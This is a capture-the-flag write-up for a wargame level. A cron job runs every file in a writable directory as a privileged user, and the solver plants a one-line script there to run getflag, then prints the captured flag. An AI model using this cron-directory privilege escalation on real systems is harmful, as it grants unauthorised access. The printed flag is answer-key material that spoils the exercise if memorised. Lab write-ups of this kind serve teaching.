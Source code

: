 # level05

We log in as `level05` and we see a message :

```
You have new mail.
```

A quick Google search tells us where to look : typically, Linux emails are in `/var/mail` or `/var/spool`. We find a file, `/var/mail/level05`. It contains a single line :

```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

What is this ? This is the format of a **cron job**. Cron allows you to run tasks periodically.

`*/2 * * * *` tells us it runs every 2 minutes (see [crontab guru](https://crontab.guru/#*/2_*_*_*_*), a very useful tool) the command `sh /usr/sbin/openarenaserver`. The bit at the end suggests the job is ran by `flag05` - exactly what we need to exploit !

We take a look at the scheduled shell script, `/usr/sbin/openarenaserver` :

```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

The script appears to run every file in the `/opt/openarenaserver`, directory with `bash -x <FILENAME>`.

All we need to do is write a script to run getflag for us. We run :

```
echo 'getflag > /tmp/flag05.txt' > /opt/openarenaserver/script
```

## The flag

Two minutes later, cron has ran the job, and we can read the level05 flag with `cat /tmp/flag05.txt` :

```
viuaaale9huek52boumoomioc
```